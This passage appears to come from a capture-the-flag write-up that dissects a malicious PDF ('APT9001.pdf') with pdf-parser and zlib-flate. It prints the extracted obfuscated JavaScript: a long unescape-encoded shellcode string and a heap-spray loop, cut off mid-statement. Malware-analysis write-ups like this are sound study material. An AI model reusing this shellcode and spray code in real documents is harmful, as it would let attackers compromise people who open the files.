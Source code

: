Object '5 0' References doing something with Javascript and also references object '6 0' which appears to have some sort of code in it. Next, extracting that object may bring us closer to the answer. Extracting the object to disk can be done by running `python pdf-parser.py APT9001.pdf -o 6 -d obj6`. Looking at the output looked nonsensical, but running `file` on it shows it to be "zlib compressed data", so decompressing it using `zlib-flate` gives us an output. Converting this data from hex to ascii gives us some Javascript code.

```javascript
var HdPN = "";
var zNfykyBKUZpJbYxaihofpbKLkIDcRxYZWhcohxhunRGf = "";
var IxTUQnOvHg = unescape(
  "%u72f9%u4649%u1525%u7f0d%u3d3c%ue084%ud62a%ue139%ua84a%u76b9%u9824%u7378%u7d71%u757f%u2076%u96d4%uba91%u1970%ub8f9%ue232%u467b%u9ba8%ufe01%uc7c6%ue3c1%u7e24%u437c%ue180%ub115%ub3b2%u4f66%u27b6%u9f3c%u7a4e%u412d%ubbbf%u7705%uf528%u9293%u9990%ua998%u0a47%u14eb%u3d49%u484b%u372f%ub98d%u3478%u0bb4%ud5d2%ue031%u3572%ud610%u6740%u2bbe%u4afd%u041c%u3f97%ufc3a%u7479%u421d%ub7b5%u0c2c%u130d%u25f8%u76b0%u4e79%u7bb1%u0c66%u2dbb%u911c%ua92f%ub82c%u8db0%u0d7e%u3b96%u49d4%ud56b%u03b7%ue1f7%u467d%u77b9%u3d42%u111d%u67e0%u4b92%ueb85%u2471%u9b48%uf902%u4f15%u04ba%ue300%u8727%u9fd6%u4770%u187a%u73e2%ufd1b%u2574%u437c%u4190%u97b6%u1499%u783c%u8337%ub3f8%u7235%u693f%u98f5%u7fbe%u4a75%ub493%ub5a8%u21bf%ufcd0%u3440%u057b%ub2b2%u7c71%u814e%u22e1%u04eb%u884a%u2ce2%u492d%u8d42%u75b3%uf523%u727f%ufc0b%u0197%ud3f7%u90f9%u41be%ua81c%u7d25%ub135%u7978%uf80a%ufd32%u769b%u921d%ubbb4%u77b8%u707e%u4073%u0c7a%ud689%u2491%u1446%u9fba%uc087%u0dd4%u4bb0%ub62f%ue381%u0574%u3fb9%u1b67%u93d5%u8396%u66e0%u47b5%u98b7%u153c%ua934%u3748%u3d27%u4f75%u8cbf%u43e2%ub899%u3873%u7deb%u257a%uf985%ubb8d%u7f91%u9667%ub292%u4879%u4a3c%ud433%u97a9%u377e%ub347%u933d%u0524%u9f3f%ue139%u3571%u23b4%ua8d6%u8814%uf8d1%u4272%u76ba%ufd08%ube41%ub54b%u150d%u4377%u1174%u78e3%ue020%u041c%u40bf%ud510%ub727%u70b1%uf52b%u222f%u4efc%u989b%u901d%ub62c%u4f7c%u342d%u0c66%ub099%u7b49%u787a%u7f7e%u7d73%ub946%ub091%u928d%u90bf%u21b7%ue0f6%u134b%u29f5%u67eb%u2577%ue186%u2a05%u66d6%ua8b9%u1535%u4296%u3498%ub199%ub4ba%ub52c%uf812%u4f93%u7b76%u3079%ubefd%u3f71%u4e40%u7cb3%u2775%ue209%u4324%u0c70%u182d%u02e3%u4af9%ubb47%u41b6%u729f%u9748%ud480%ud528%u749b%u1c3c%ufc84%u497d%u7eb8%ud26b%u1de0%u0d76%u3174%u14eb%u3770%u71a9%u723d%ub246%u2f78%u047f%ub6a9%u1c7b%u3a73%u3ce1%u19be%u34f9%ud500%u037a%ue2f8%ub024%ufd4e%u3d79%u7596%u9b15%u7c49%ub42f%u9f4f%u4799%uc13b%ue3d0%u4014%u903f%u41bf%u4397%ub88d%ub548%u0d77%u4ab2%u2d93%u9267%ub198%ufc1a%ud4b9%ub32c%ubaf5%u690c%u91d6%u04a8%u1dbb%u4666%u2505%u35b7%u3742%u4b27%ufc90%ud233%u30b2%uff64%u5a32%u528b%u8b0c%u1452%u728b%u3328%ub1c9%u3318%u33ff%uacc0%u613c%u027c%u202c%ucfc1%u030d%ue2f8%u81f0%u5bff%u4abc%u8b6a%u105a%u128b%uda75%u538b%u033c%uffd3%u3472%u528b%u0378%u8bd3%u2072%uf303%uc933%uad41%uc303%u3881%u6547%u5074%uf475%u7881%u7204%u636f%u7541%u81eb%u0878%u6464%u6572%ue275%u8b49%u2472%uf303%u8b66%u4e0c%u728b%u031c%u8bf3%u8e14%ud303%u3352%u57ff%u6168%u7972%u6841%u694c%u7262%u4c68%u616f%u5464%uff53%u68d2%u3233%u0101%u8966%u247c%u6802%u7375%u7265%uff54%u68d0%u786f%u0141%udf8b%u5c88%u0324%u6168%u6567%u6842%u654d%u7373%u5054%u54ff%u2c24%u6857%u2144%u2121%u4f68%u4e57%u8b45%ue8dc%u0000%u0000%u148b%u8124%u0b72%ua316%u32fb%u7968%ubece%u8132%u1772%u45ae%u48cf%uc168%ue12b%u812b%u2372%u3610%ud29f%u7168%ufa44%u81ff%u2f72%ua9f7%u0ca9%u8468%ucfe9%u8160%u3b72%u93be%u43a9%ud268%u98a3%u8137%u4772%u8a82%u3b62%uef68%u11a4%u814b%u5372%u47d6%uccc0%ube68%ua469%u81ff%u5f72%ucaa3%u3154%ud468%u65ab%u8b52%u57cc%u5153%u8b57%u89f1%u83f7%u1ec7%ufe39%u0b7d%u3681%u4542%u4645%uc683%ueb04%ufff1%u68d0%u7365%u0173%udf8b%u5c88%u0324%u5068%u6f72%u6863%u7845%u7469%uff54%u2474%uff40%u2454%u5740%ud0ff"
);
var MPBPtdcBjTlpvyTYkSwgkrWhXL = "";

for (
  EvMRYMExyjbCXxMkAjebxXmNeLXvloPzEWhKA = 128;
  EvMRYMExyjbCXxMkAjebxXmNeLXvloPzEWhKA >= 0;
  --EvMRYMExyjbCXxMkAjebxXmNeLXvloPzEWhKA
)
  MPBPtdcBjTlpvyTYkSwgkrWhXL += unescape("%ub32f%u3791");
ETXTtdYdVfCzWGSukgeMeucEqeXxPvOfTRBiv = MPBPtdcBjTlpvyTYkSwgkrWhXL + IxTUQnOvHg;
OqUWUVrfmYPMBTgnzLKaVHqyDzLRLWulhYMclwxdHrPlyslHTY = unescape("%ub32f%u3791");
fJWhwERSDZtaZXlhcREfhZjCCVqFAPS = 20;
fyVSaXfMFSHNnkWOnWtUtAgDLISbrBOKEdKhLhAvwtdijnaHA =
  fJWhwERSDZtaZXlhcREfhZjCCVqFAPS +
  ETXTtdYdVfCzWGSukgeMeucEqeXxPvOfTRBiv.length;
while (
  OqUWUVrfmYPMBTgnzLKaVHqyDzLRLWulhYMclwxdHrPlyslHTY.length <
  fyVSaXfMFSHNnkWOnWtUtAgDLISbrBOKEdKhLhAvwtdijnaHA
)
  OqUWUVrfmYPMBTgnzLKaVHqyDzLRLWulhYMclwxdHrPlyslHTY +=
    OqUWUVrfmYPMBTgnzLKaVHqyDzLRLWulhYMclwxdHrPlyslHTY;
UohsTktonqUXUXspNrfyqyqDQlcDfbmbywFjyLJiesb =
```